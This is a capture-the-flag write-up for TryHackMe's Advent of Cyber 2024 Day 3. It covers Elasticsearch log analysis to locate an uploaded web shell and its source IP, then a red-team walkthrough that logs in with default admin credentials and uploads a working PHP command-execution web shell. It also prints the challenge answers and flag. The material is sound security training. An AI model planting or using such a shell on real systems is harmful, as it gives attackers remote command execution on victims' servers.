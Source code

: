 ## **Advent of Cyber 2024 - Day 3 Writeup**

**Title:** _Even if I wanted to go, their vulnerabilities wouldn't allow it_

---

### **Task 9: Log Analysis – Day 3**

### **1. BLUE: Where was the web shell uploaded to?**

#### **Approach:**

1. **Access the Elastic Page:**
    
    - Open the provided URL and navigate to **ElasticSearch**.
2. **Navigate to Discover:**
    
    - Click on the **vertical nav bar** on the left and select **Discover**.
    - Ensure the **Frostypines** index is selected.
3. **Set the Time Filter:**
    
    - Set the date range: **October 1, 00:00 to October 3, 20:00**.
4. **Analyze Requests:**
    
    - Add the `requests` field to filter the log entries.
    - Search for suspicious file uploads to identify the web shell location.

#### **Answer:**

`/media/images/rooms/shell.php`

---

### **2. BLUE: What IP address accessed the web shell?**

#### **Approach:**

1. **Filter by Client IP Field:**
    
    - Add the **client IP** field in the ElasticSearch Discover view.
2. **Analyze Logs:**
    
    - Look for the IP address that accessed the malicious **shell.php** file.

#### **Answer:**

`10.11.83.34`

---

### **3. RED: What is the contents of the flag.txt?**

#### **Approach:**

1. **Modify `/etc/hosts` File:**
    
    - Add an entry to map the machine IP to the domain:
        `echo "<MACHINE_IP> frostypines.thm" | sudo tee -a /etc/hosts`
        
2. **Access the Web Application:**
    
    - Visit: `http://frostypines.thm`
    - Navigate to the **Reservation Tab**.
3. **Login to the Admin Panel:**
    
    - Use the credentials:
        - **Username:** `admin@frostypines.thm`
        - **Password:** `admin`
    - Access: `http://frostypines.thm/admin/index.php`.
4. **Upload a Web Shell:**
    
    - Save the following PHP code as `shell.php` (or any name):
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
        
5. **Upload the Shell:**
    
    - Use the **Add New Room** functionality to upload `shell.php`.
6. **Verify the Upload:**
    
    - After uploading, confirm the new room appears.
    - Open the image in a new tab to interact with the shell.
7. **Execute Commands to Retrieve the Flag:**
    
    - Verify the shell is working by typing `ls`.
    - Retrieve the flag by executing:
        `cat flag.txt`
        

#### **Answer:**

`THM{Gl1tch_Was_H3r3}`

---

### **Summary of Tools and Methods Used:**

1. **Tools:**
    
    - ElasticSearch (Discover)
    - Web Shell (PHP-based)
    - Linux `/etc/hosts` for DNS resolution
2. **Techniques:**
    
    - **Log Analysis:** Identified web shell location and accessing IP.
    - **Web Exploitation:** Uploaded and used a PHP web shell to execute commands remotely.

---

### **Key Concepts Learned:**

1. **Log Analysis:** Used ElasticSearch to identify the web shell and accessing IP.
2. **PHP Web Shell Exploitation:** Leveraged web application vulnerabilities to upload a malicious script.
3. **Flag Retrieval:** Executed commands remotely to obtain sensitive information.